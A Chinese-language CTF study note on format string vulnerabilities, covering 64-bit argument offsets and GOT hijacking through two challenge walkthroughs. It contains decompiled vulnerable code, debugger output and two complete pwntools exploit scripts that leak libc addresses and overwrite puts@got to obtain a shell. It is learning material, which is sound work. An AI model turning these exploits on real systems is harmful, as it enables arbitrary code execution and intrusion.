

格式化字符串漏洞例子
绝大部分内容来自 CTF-WIKI ，内容引用用于学习记录
64 位程序格式化字符串漏洞
原理
其实 64 位的偏移计算和 32 位类似，都是算对应的参数。只不过 64 位函数的前 6 个参数是存储在相应的寄存器中的。那么在格式化字符串漏洞中呢？虽然我们并没有向相应寄存器中放入数据，但是程序依旧会按照格式化字符串的相应格式对其进行解析。
例子
确定保护
这里，我们以 2017 年的 UIUCTF 中 pwn200 GoodLuck 为例进行介绍。这里由于只有本地环境，所以我在本地设置了一个 flag.txt 文件。
➜ 2017-UIUCTF-pwn200-GoodLuck git:(master) ✗ checksec goodluck
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
可以看出程序开启了 Canary、NX 保护以及部分 RELRO 保护。
分析程序
可以发现，程序的漏洞很明显
for ( j = 0; j <= 21; ++j )
{
v5 = format[j];
if ( !v5 || v11[j] != v5 )
{
puts("You answered:");
printf(format);
puts("\nBut that was totally wrong lol get rekt");
fflush(_bss_start);
result = 0;
goto LABEL_11;
}
}
可以看到 flag 对应的栈上的偏移为 5，除去对应的第一行为返回地址外，其偏移为 4。此外，由于这是一个 64 位程序，所以前 6 个参数存在在对应的寄存器中，fmt 字符串存储在 RDI 寄存器中，所以 fmt 字符串对应的地址的偏移为 10。而 fmt 字符串中 %order$s 对应的 order 为 fmt 字符串后面的参数的顺序，所以我们只需要输入 %9$s 即可得到 flag 的内容。当然，我们还有更简单的方法利用 https://github.com/scwuaptx/Pwngdb 中的 fmtarg 来判断某个参数的偏移。
gef➤ fmtarg 0x00007fffffffdb28
The index of format argument : 10
需要注意的是我们必须 break 在 printf 处。
来自 resery 师傅注解：
这里的 10 是由 5+5 得到的，至于为什么是这两个 5 是从哪里的得到的，我来解释一下，前面的 5：由于 64 为程序，前 64 个参数是存在寄存器中的，分别是 rdi，rsi，rcx，rdx，r8，r9，所以第一个格式化字符串是存储在 rdi 中的，所以 flag 对应的偏移就应该是 5+flag 在栈中的偏移，在栈中的偏移就很好理解了就是 5，所以 flag 对应的格式化字符串偏移为 10
注解
-
我安装的 Pwndbg 并没有 fmtarg ，可能是版本不对，如果需要安装一下 gef 插件。
-
两个作者都解释了偏移 10 是怎么计算来，但我更喜欢的方法是输入一长串 %p 得出输入字符串的偏移是多少，然后再计算目标偏移或地址。
shell
$ ./goodluck
what's the flag
bbbbbbbb%p%p%p%p%p%p%p%p%p%p%p
You answered:
bbbbbbbb0x6020100x7ffff7dd37800x7ffff7b042c00x7ffff7fdc7000x7ffff7fdc7010x620000010x6028300x6020100x7fffffffdd300x6161617b67616c660x6161616161616161
But that was totally wrong lol get rekt
0x602830 是第 7 位。为什么泄露的不是 0x6262626262626262 ？前面提到了，64 位系统的前六个参数是寄存器传参的，而 bbbbbbbb 是第一个参数自然在寄存器中存放，0x602830 就是存储的寄存器地址。怎么获得这个地址？gdb 调试断点打在 printf 函数：

这样得出最后的 flag 偏移为 10 。
利用程序
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
# 这个库没有用到可以注释掉
# from LibcSearcher import *
goodluck = ELF('./goodluck')
if args['REMOTE']:
sh = remote('pwn.sniperoj.cn', 30017)
else:
sh = process('./goodluck')
payload = "%9$s"
print payload
##gdb.attach(sh)
sh.sendline(payload)
print sh.recv()
sh.interactive()
hijack GOT
原理
在目前的 C 程序中，libc 中的函数都是通过 GOT 表来跳转的（延迟绑定技术）。此外，在没有开启 RELRO 保护的前提下，每个 libc 的函数对应的 GOT 表项是可以被修改的。因此，我们可以修改某个 libc 函数的 GOT 表内容为另一个 libc 函数的地址来实现对程序的控制。比如说我们可以修改 printf 的 got 表项内容为 system 函数的地址。从而，程序在执行 printf 的时候实际执行的是 system 函数。
假设我们将函数 A 的地址覆盖为函数 B 的地址，那么这一攻击技巧可以分为以下步骤
-
确定函数 A 的 GOT 表地址。
-
这一步我们利用的函数 A 一般在程序中已有，所以可以采用简单的寻找地址的方法来找。（因为这类函数会在程序源码中使用到，所以能直接或间接从 elf 文件中读取）
-
确定函数 B 的内存地址
-
这一步通常来说，需要我们自己想办法来泄露对应函数 B 的地址。
-
将函数 B 的内存地址写入到函数 A 的 GOT 表地址处。
-
这一步一般来说需要我们利用函数的漏洞来进行触发。一般利用方法有如下两种
- 写入函数：write 函数（常见）
- 格式化字符串任意地址写（常见）
- ROP
pop eax; ret; # printf@got -> eax pop ebx; ret; # (addr_offset = system_addr - printf_addr) -> ebx add [eax] ebx; ret; # [printf@got] = [printf@got] + addr_offset
例子
这里我们以 2016 CCTF 中的 pwn3 为例进行介绍。
确定保护
如下
➜ 2016-CCTF-pwn3 git:(master) ✗ checksec pwn3
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)
可以看出程序主要开启了 NX 保护。RELRO 是部分保护，这种状态下可以修改 GOT 表，如果是 FULL 则不行。另外我们一般默认远程都是开启 ASLR 保护的。
分析程序
首先分析程序，可以发现程序似乎主要实现了一个需密码登录的 ftp，具有 get，put，dir 三个基本功能。大概浏览一下每个功能的代码，发现在 get 功能中存在格式化字符串漏洞
int get_file()
{
char dest; // [sp+1Ch] [bp-FCh]@5
char s1; // [sp+E4h] [bp-34h]@1
char *i; // [sp+10Ch] [bp-Ch]@3
printf("enter the file name you want to get:");
__isoc99_scanf("%40s", &s1);
if ( !strncmp(&s1, "flag", 4u) )
puts("too young, too simple");
for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
{
if ( !strcmp(i, &s1) )
{
strcpy(&dest, i + 0x28);//将内容复制到dest
return printf(&dest);//输出dest内容
}
}
return printf(&dest);
}
漏洞利用思路
既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路
- 绕过密码
- 确定格式化字符串参数偏移
- 利用 put@got 获取 put 函数地址，进而获取对应的 libc.so 的版本，进而获取对应 system 函数地址。
- 修改 puts@got 的内容为 system 的地址。
- 当程序再次执行 puts 函数的时候，其实执行的是 system 函数。
漏洞利用程序
如下
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author : MrSkYe
# @Email : skye231@foxmail.com
# @File : filename.py
from pwn import *
context.log_level = 'debug'
p = process("./pwn3")
elf = ELF("./pwn3")
libc = ELF("./libc.so")
def creat(name,content):
p.recvuntil("ftp>")
p.sendline("put")
p.recvuntil("upload:")
p.sendline(name)
p.recvuntil("content:")
p.sendline(content)
def show(name):
p.recvuntil("ftp>")
p.sendline("get")
p.recvuntil("get:")
p.sendline(name)
def showlist():
p.recvuntil("ftp>")
p.sendline("dir")
name = "rxraclhm"
puts_got = elf.got['puts']
log.info("puts_got:"+hex(puts_got))
p.recvuntil("Rainism):")
p.sendline(name)
# leak libc
payload = "%8$s" + p32(puts_got)
creat('aaaa',payload)
show('aaaa')
puts_leak = u32(p.recv(4))
log.info("puts_leak:"+hex(puts_leak))
libc_base = puts_leak - libc.symbols['puts']
log.info("libc_base:"+hex(libc_base))
system = libc_base + libc.symbols['system']
log.info("system:"+hex(system))
binsh = libc_base + libc.search('/bin/sh').next()
log.info("binsh:"+hex(binsh))
onegadget = libc_base + 0x3ac62
log.info("onegadget:"+hex(onegadget))
# 1:overcover puts@got 2 system@got
#payload = fmtstr_payload(7, {puts_got: system})
#creat('/bin/sh;', payload)
#show('/bin/sh;')
#showlist()
# 2:overcover puts@got 2 onegadget
payload = fmtstr_payload(7, {puts_got: onegadget})
creat('bbbb', payload)
show('bbbb')
p.interactive()
exp 替换我写得版本，这条题目的完整 WP ：2016_CCTF_pwn3_writeup
注意
- 我在获取 puts 函数地址时使用的偏移是 8，这是因为我希望我输出的前 4 个字节就是 puts 函数的地址。其实格式化字符串的首地址的偏移是 7。
- 这里我利用了 pwntools 中的 fmtstr_payload 函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里 fmtstr_payload(7, {puts_got: system_addr}) 的意思就是，我的格式化字符串的偏移是 7，我希望在 puts_got 地址处写入 system_addr 地址。默认情况下是按照字节来写的。